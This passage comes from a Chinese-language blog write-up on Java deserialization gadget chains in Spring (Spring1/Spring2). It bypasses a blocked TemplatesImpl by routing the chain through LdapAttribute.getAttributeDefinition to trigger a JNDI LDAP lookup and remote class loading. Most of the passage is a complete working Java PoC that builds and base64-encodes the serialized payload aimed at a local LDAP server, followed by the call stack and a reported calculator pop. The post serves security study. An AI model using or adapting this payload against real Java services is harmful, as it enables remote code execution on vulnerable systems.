

方法反射调用，成功弹出计算器

# 攻击面拓展

学习完这两条链子之后我就思考着要是TemplatesImpl类被禁掉了要怎么办，在网上搜寻了一番后发现没有现成的文章来讲述相关的解决办法，所以打算自己尝试一手

我想的是将该链子与jndi注入联系起来，从而实现远程类加载

思路有了那么接下来就是要找到合适的实现类了，最开始我想到的是JDBcRowSetImpl类，利用它的getDatabaseMetaData()方法


但是嘞由于我们链子前面都是用到了代理，所以也就说明我们所找的这个方法必须是位于接口中的，很遗憾该方法就只位于JDBcRowSetImpl类里面，所以用不了

接下来又到处找实现类，全局搜索lookup方法等等，都没有找到我所需要的

直到突然之间想起了之前看过的一篇文章：<http://blog.potatowo.top/2025/03/23/%E8%BD%AF%E4%BB%B6%E7%B3%BB%E7%BB%9F%E5%AE%89%E5%85%A8%E8%B5%9B2025%E5%8D%8E%E4%B8%9C%E8%B5%9B%E5%8C%BA%E5%8D%8A%E5%86%B3%E8%B5%9Bwp-web/>

在这篇文章里面提到了一个类`com.sun.jndi.ldap.LdapAttribute`，其有个getAttributeDefinition()方法，其中调用了lookup()


该类继承了BasicAttribute类，跟过去

BasicAttribute类实现了Attribute接口，在这个接口中定义了getAttributeDefinition()方法



很好，一切都对上了，这就是我找了许久的类

重新改一下我们的poc，如下

```
package org.example;

import org.springframework.beans.factory.ObjectFactory;
import sun.reflect.ReflectionFactory;

import javax.naming.CompositeName;
import javax.naming.directory.Attribute;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class Main {
    public static void main(String[] args) throws Exception {
        Class c1 = Class.forName("com.sun.jndi.ldap.LdapAttribute");
        Class c2 = Class.forName("javax.naming.directory.BasicAttribute");
        Object ldap = createObjWithConstructor(c1,c2,new Class[]{String.class},new Object[]{"6924bf"});
        setField(ldap,"rdn",new CompositeName("a//b"));

        setField(ldap,"baseCtxURL","ldap://127.0.0.1:50389/");

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put("getObject", ldap);

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, hashMap);

        ObjectFactory<?> objectFactory = (ObjectFactory<?>) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);

        Class<?> clazz = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> constructor2 = clazz.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        InvocationHandler invocationHandler2 = (InvocationHandler) constructor2.newInstance(objectFactory);
        Type type = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Type.class, Attribute.class}, invocationHandler2);

        HashMap<Object, Object> hashMap2 = new HashMap<>();
        hashMap2.put("getType", type);
        InvocationHandler invocationHandler3 = (InvocationHandler) constructor.newInstance(Target.class, hashMap2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{typeProviderClass}, invocationHandler3);

        Class<?> class2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> constructor3 = class2.getDeclaredConstructors()[0];
        constructor3.setAccessible(true);

        Object object = constructor3.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        setField(object, "methodName", "getAttributeDefinition");

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        byte[] serializedBytes = byteArrayOutputStream.toByteArray();
        String base64Encoded = Base64.getEncoder().encodeToString(serializedBytes);
        System.out.println(base64Encoded);

        byte[] decodedBytes = Base64.getDecoder().decode(base64Encoded);
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(decodedBytes));
        objectInputStream.readObject();
    }

    public static void setField(Object object,String fieldName,Object value) throws Exception{
        Class<?> c = object.getClass();
        Field field = c.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(object,value);
    }

    public static <T> T createObjWithConstructor (Class<T> clazz,Class<? super T> superClazz,Class<?>[] argsTypes,Object[] argsValues) throws Exception{
        Constructor<?super T> constructor = superClazz.getDeclaredConstructor(argsTypes);
        constructor.setAccessible(true);
        Constructor<?> constructor1 = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(clazz,constructor);
        constructor1.setAccessible(true);
        return (T) constructor1.newInstance(argsValues);
    }
}
```

进行测试，成功弹出计算器



然后后面进行一个调试，发现其实进行了一个远程类加载的相关代码并不是getAttributeDefinition()方法中最明显的lookup函数

这边笔者就不进行调试了，想调试的可以自己去试试，调用栈如下：

```
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
c_resolveIntermediate_nns:168, ComponentContext (com.sun.jndi.toolkit.ctx)
c_resolveIntermediate_nns:359, AtomicContext (com.sun.jndi.toolkit.ctx)
p_resolveIntermediate:439, ComponentContext (com.sun.jndi.toolkit.ctx)
p_getSchema:432, ComponentDirContext (com.sun.jndi.toolkit.ctx)
getSchema:422, PartialCompositeDirContext (com.sun.jndi.toolkit.ctx)
getSchema:210, InitialDirContext (javax.naming.directory)
getAttributeDefinition:207, LdapAttribute (com.sun.jndi.ldap)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invoke:307, AutowireUtils$ObjectFactoryDelegatingInvocationHandler (org.springframework.beans.factory.support)
getAttributeDefinition:-1, $Proxy1 (com.sun.proxy)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeMethod:202, ReflectionUtils (org.springframework.util)
invokeMethod:187, ReflectionUtils (org.springframework.util)
readObject:404, SerializableTypeWrapper$MethodInvokeTypeProvider (org.springframework.core)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:497, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
readObject:371, ObjectInputStream (java.io)
main:66, Main (org.example)
```

# 总结

spring1和spring2的链子都与动态代理密切相关，建议是先熟练掌握了动态代理之后再来学习这两条链子会比较轻松

对于这两条链的利用肯定不止笔者这里提到的这些，大家有兴趣的也可以自己去找找看
